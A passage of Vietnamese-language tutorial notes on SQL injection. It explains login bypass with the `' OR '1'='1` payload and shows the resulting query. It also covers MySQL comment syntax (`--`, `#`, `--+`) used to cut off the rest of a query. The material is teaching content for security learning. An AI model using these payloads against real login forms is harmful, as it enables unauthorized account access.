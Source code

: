 1. Điều kiện đầu tiên kiểm tra `username='admin'`.
2. Điều kiện `OR '1'='1'` luôn đúng.
3. Kết hợp với **AND**, truy vấn vẫn trả về **true**.

- Với logic này, người tấn công có thể đăng nhập mà không cần biết mật khẩu thực tế. Điều kiện `'1'='1'` đảm bảo truy vấn luôn thành công, bất kể mật khẩu nhập vào.

### Auth Bypass with OR operator

- Nếu không biết tên người dùng hợp lệ, chúng ta có thể sử dụng phương pháp tương tự với trường mật khẩu:

```sql
' OR '1'='1
```

- Câu truy vấn sẽ trở thành:

```sql
SELECT * FROM logins WHERE username='anyUser' AND (password='' OR '1'='1');
```

- Điều này dẫn đến việc truy vấn trả về tất cả các bản ghi trong bảng và cấp quyền đăng nhập cho người đầu tiên trong danh sách.

## Using Comments

- SQL cũng hỗ trợ sử dụng bình luận, tương tự như nhiều ngôn ngữ lập trình khác. Bình luận giúp tài liệu hóa truy vấn hoặc bỏ qua một phần truy vấn không cần thiết. 
- MySQL cho phép sử dụng hai kiểu bình luận dòng là `--` và `#`. Ngoài ra, cũng có thể dùng bình luận nội tuyến `/ * */`, tuy nhiên kiểu này ít được sử dụng trong các cuộc tấn công SQL Injection.

### Comments

- Bình luận kiểu `--` được sử dụng như sau:
```sql
SELECT username FROM logins; -- Chỉ lấy tên đăng nhập từ bảng logins
```
- Kết quả:
```plaintext
+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
```
- Lưu ý: Sau `--` cần có khoảng trống (space) để bắt đầu bình luận. Trong URL, khoảng trống được mã hóa thành `+`, ví dụ: `--+`.

- Bình luận kiểu `#` cũng được hỗ trợ:
```sql
SELECT * FROM logins WHERE username = 'admin'; # Phần này bị bỏ qua
```
